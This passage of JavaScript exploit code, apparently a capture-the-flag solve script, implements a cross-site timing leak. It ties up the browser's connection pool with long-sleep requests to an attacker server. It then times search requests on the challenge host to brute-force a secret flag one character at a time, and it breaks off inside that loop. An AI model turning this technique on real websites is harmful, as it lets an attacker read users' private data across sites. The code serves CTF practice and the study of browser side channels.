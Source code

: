``` html
    return end - start;
}

const fetch_sleep_long = (i) => {
    // 40s sleep
    return fetch(`https://${i}.${MYSERVER}/40sleep`, {
        mode: 'no-cors'
    });
}

const fetch_sleep_short = (i) => {
    // 0.25s sleep
    return fetch(`https://${i}.${MYSERVER}/ssleep`, {
        mode: 'no-cors'
    });
}

const block_socket = async (i) => {
    fetch_sleep_long(i);
    // needed?
    await sleep(0);
}

const exhaust_sockets = async() => {
    let i = 0
    for (; i < SOCKETLIMIT; i++) {
        block_socket(i);
    }
    console.log(`Used ${i} connections`);
}

const timeit = async (url, popup) => {
    return new Promise(async (r) => {

        popup.location = url;
        // needed?
        await sleep(50)

        let val = await time_fetch()
        r(val)
    });
}

// const alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ-}!"#$%&\'()*+,-./:;<=>?@[\\]^`|~{'.split('');
const alphabet = 'abcdefghijklmnopqrstuvwxyz}_'.split('');
// const alphabet = 'abcdef}'.split('');

const oracle = async (search) => {
    let url = `https://carrot-${INSTANCE}.mc.ax/tasks?search=${search}`
    let t = await timeit(url, WINBG)

    LOG = `${search}:${t}`
    console.log(`${search}:${t}`)

    return t > TIMELIMIT 
}

const brute = async (flag) => {
    for (const char of alphabet) {
        if (await oracle(flag + char)) {
            return char;
        }
```
